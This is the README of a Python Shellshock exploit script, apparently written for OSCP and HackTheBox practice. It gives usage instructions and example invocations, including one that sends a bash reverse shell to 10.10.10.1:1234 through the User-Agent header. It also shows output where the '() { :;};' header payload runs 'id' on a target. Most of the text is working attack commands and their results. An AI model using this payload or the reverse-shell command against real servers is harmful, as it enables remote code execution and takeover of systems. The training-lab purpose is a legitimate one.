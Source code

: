 # shellshock
Python3 Shellshock exploit script made for OSCP and HTB. Created this because I could not figure out how to make the nmap HTTP-shellshock.nse script do what I wanted.

## Notes
1. Run the script with python3
  
  - `python3 shellshock.py -h`
  
2. Works best when sending request through Burp.
    - Set up a proxy listener and forward the script requests to the host.
    - Intercept request and modify as necessary.


## Example 
### Usage
```
python3 shellshock.py -h
usage: ss.py -h | ss.py --help

Shellshock script to test vulnerable servers during OSCP and HTB. Works best when sending request through Burp. Set up a proxy listener and forward the script requests to the host. Intercept request and modify as necessary. Created this because I could not figure out how to make the nmap HTTP-shellshock.nse script do what I wanted

positional arguments:
  target                target to run against.

optional arguments:
  -p PORT, --port PORT  Default port = 80
  -u URI, --uri URI     URI to run against (typically /cgi-bin/something).
  -c COMMAND, --command COMMAND
                        command to run. Default payload = /bin/id
  -H HEADER, --header HEADER
                        Choose a specific header to test shellshock. Defaults to test User-Agent, Cookie, and Referrer
  -P http|https, --proto http|https
                        force protocol http or https
  -h, --help            		Print this help message then exit
  -v, --verbose         Verbose output

Examples:
    	python3 shellshock.py target -p port -u 'uri'
    	python3 shellshock.py 127.0.0.1 -p 8081 -u '/cgi-bin/something' -c 'bash -c "id"' --verbose -H 'Referer'
    	python3 shellshock.py 1.1.1.1 -p 10000 -u '/' --command 'bash -i >& /dev/tcp/10.10.10.1/1234 0>&1' --header 'User-Agent' --proto https
```
### Output
```
python3 shellshock.py 127.0.0.1 -p 8081 -u '/cgi-bin/user.sh' -c '/bin/bash -c "id"' -v

Target set to = 127.0.0.1
 Port set to = 8081
 URI set to = /cgi-bin/user.sh
 Command set to = /bin/bash -c "id"
 Header set to = ['User-Agent', 'Cookie', 'Referer']
 Protocol set to = http

Sending request with details:
    URI = http://127.0.0.1:8081/cgi-bin/user.sh
    Header for this request= {'User-Agent': '() { :;}; echo; /bin/bash -c "id"'}
    verify=False
Request sent. 
Done.
Status code returned = 200
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
